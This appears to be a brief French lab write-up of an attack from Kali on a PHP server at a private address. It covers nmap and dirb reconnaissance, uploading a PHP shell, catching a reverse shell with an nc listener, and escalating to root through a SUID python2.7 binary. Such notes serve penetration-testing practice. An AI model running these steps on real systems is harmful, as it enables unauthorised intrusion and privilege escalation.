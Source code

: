 # Attaque depuis kali:

## Reconnaissance
> nmap 192.168.60.0/24
Visite du site web, on trouve que le serveur utilise php
> dirb http://192.168.60.10/
> dirb http://192.168.60.10/ -X .php
## Reverse shell
Upload de shell.php dans /upload.php
Attente du reverse shell depuis kali:
> nc -nlvp 9001
Ouvrir shell.php dans /uploads
## Escalade de privilèges
Trouver les fichiers avec SUID d'activé:
> find / -perm -u=s -type f 2>/dev/null
Utiliser python pour l'escalade:
> cd /usr/bin
> ./python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
